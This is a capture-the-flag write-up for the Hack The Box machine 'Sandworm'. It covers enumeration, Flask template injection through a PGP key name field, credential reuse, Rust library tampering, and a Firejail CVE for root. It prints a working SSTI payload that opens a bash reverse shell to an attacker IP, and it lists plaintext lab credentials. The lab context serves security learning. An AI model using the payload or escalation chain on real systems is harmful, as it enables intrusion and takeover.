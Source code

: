 ```yaml
---
title: Sandworm Notes
date: 2023-08-18 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, SSTI, CVE-2022-31214]

img_path: /assets/img/htb/writeups/sandworm
---
```


* * *

#  Sandworm Notes

* * *

## **Information gathering**

* * *

**Scope:** 10.10.11.218/32 (Linux)

![](target_connection.png)

**TCP Nmap scan:** 65,535 ports

![](nmap_all_ports_TCP.png)

* **Open ports**:
	* **22/ssh (Secure Shell Protocol)**
		* Banner Grabbing
			* Service
				* OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
					* Latest version: [OpenSSH 9.4](https://www.openssh.com/txt/release-9.4)/[9.4p1](https://www.openssh.com/txt/release-9.4) (2023-08-10)
			* Authentication: (publickey, password)
		* Valid credentials
			* None

	* **80/http (Hypertext Transfer Protocol)**
		* Banner Grabbing
			* Redirection: https://ssa.htb/ (10.10.11.218:443)
				![](http_banner_grabbing_curl.png)
				* Add domain to **Local DNS Server** (/etc/hosts)
					* echo "10.10.11.218 ssa.htb" \| sudo tee -a /etc/hosts
	 
	  * **443/https (Hypertext Transfer Protocol Secure)**
		*  Location: https://ssa.htb/
			* Banner Grabbing
				* Technologies
					* HTTPServer: Ubuntu Linux (nginx/1.18.0)
					* Jquery
					* Flask & trade
				* Web Interface
					* FIrefox
						![](https_web_firefox.png)
				* Posible user: atlas@ssa.htb
					![](https_banner_grabbing_openssl.png)
				* Url Scrapping
					![](https_url_scrapping.png)
				* Directory enumeration:
					![](https_fuzzing_dir.png)
					* https://ssa.htb/guide
						* PGP Encryption (Pretty Good Privacy): Encryption system used for both sending encrypted emails and encrypting sensitive files
							* Generate key
								![](generate_key.png)
							* Then create message, signed it and export public key
								![](signed_process.png)
							* Finally use them in web service and we get valid verification
								![](https_guide_valid_signature.png)
					* https://ssa.htb/pgp
						![](gpg_public_key.png)
					* https://ssa.htb/login
						* Valid credentials: None
						![](https_login_panel.png)

## **Vulnerability assessment**

* * *
* * *

* In the signature verification result we view some output when we created out public key
![](https_guide_valid_signature.png)
* In addition, from our enumeration we know that the site uses the flask framework to set up the web
	* **SSTI (Server Site Template Injection)**
		* Is possible when an attacker injects template directive as user input that can execute arbitrary code on the server
		* **PoC**: [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
			* We generate our public key, but this time we write on field that is reflected (Name) this: \{\{7\*7\}\}
			* If we look at output 49, we will known that is vulnerable (VULNERABLE)
				![](PoC_STTI.png)
				* SSTI bash script Enumeration:
					![](ssti_PoC.png)
					* Mysql credentials:
						* mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA

## **Exploitation**

* * *
* * *

* **SSTI (Server Site Template Injection)**: [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)
	* Using \_\_class\_\_ and \_\_mro\_\_ objects: (ssti.sh) [https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tool_Sandworm](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tool_Sandworm)
		* Searching **Subprocess.Popen** classs to execute commands
		* Payload: \{\{''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()\[439\](\"bash -c 'bash -i >& /dev/tcp/10.10.15.5/4444 0>&1'\",shell=True,stdout=-1).communicate()\}\}
		![](ssti_rce_shell.png)

## **Post-exploitation**

* * *
* * *

* System User (Atlas)
	* (Sandbox): A sandbox is a type of software testing environment that enables the **isolated execution of software or programs for independent evaluation**
		* Firejail: Firejail is a **SUID sandbox program** that reduces the risk of security breaches by **restricting the running environment of untrusted applications** using Linux namespaces, seccomp-bpf and Linux capabilities
	* Home directory enumeration (atlas)
		* HTTPie: Provides a **simple http command** that allows for sending arbitrary HTTP requests using a simple and natural syntax
		* ~/.config/httpie/sessions/localhost_5000/admin.json
			![](config_credentials.png)
			* Credentials: **silentobserver:quietLiketheWind22** (system user /etc/passwd)
				* Web service login
				![](https_admin_panel.png)

## **Lateral movement**

* * *
* * *

* System credentials Reuse: **silentobserver:quietLiketheWind22**
	![](silentobserver_ssh.png)
	* Enumeration (silentobserver)
		* SUID files
			* Owner: Atlas user
				* /opt/tipnet/target/debug/tipnet
					* Dependencies files: /opt/tipnet/target/debug/tipnet.d
						* /opt/crates/logger/src/lib.rs (-rw-r**w**-r-- 1 atlas **silentobserver**)
						* FIle modification Rust RCE:
							![](rust_list_modification_rce.png)
				* /opt/tipnet/target/debug/deps/tipnet-a859bd054535b3c1
				* /opt/tipnet/target/debug/deps/tipnet-dabc93f7704f7b48
		* Process script (pspy.sh)
			![](pspy.png)
			* We can view the execution of **Cargo** and the **previos Rust script (tipnet)and dependencies (tipnet.d)**:
				* Cargo is a default tool for managing dependencies in **Rust**
* Reverse shell like user **Atlas**
	![](atlas_access.png)
	* Persistence: **create pair rsa keys and add pubkey to authorized keys**
	* Enumeration
		* /usr/local/bin/firejail (0.9.68) (**CVE-2022-31214**) [https://nvd.nist.gov/vuln/detail/CVE-2022-31214](https://nvd.nist.gov/vuln/detail/CVE-2022-31214)
			* Exploit [https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)
			![](root.png)

## **Proof of concept**

* * *
* * *